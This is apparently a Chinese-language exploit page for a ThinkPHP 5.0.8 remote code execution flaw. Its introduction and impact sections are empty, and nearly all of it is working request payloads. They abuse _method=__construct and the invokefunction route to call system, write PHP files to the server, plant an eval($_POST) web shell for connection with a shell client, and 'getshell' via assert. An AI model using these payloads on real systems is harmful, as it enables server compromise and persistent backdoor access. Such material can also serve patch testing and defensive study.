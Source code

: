 Thinkphp 5.0.8
==============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    http://wwww.0-sec.org/public


    _method=__construct&method=get&filter[]=call_user_func&server[]=phpinfo&get[]=phpinfo
    _method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
    _method=__construct&method=get&filter[]=call_user_func&get[0]=phpinfo&get[1]=1
    c=system&f=calc&_method=filter

> 写入文件

    http://wwww.0-sec.org/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=uploads/1.php&vars[1][]=<?php ?>

> 直接用菜刀连

    http://wwww.0-sec.org/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1])

> getshell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
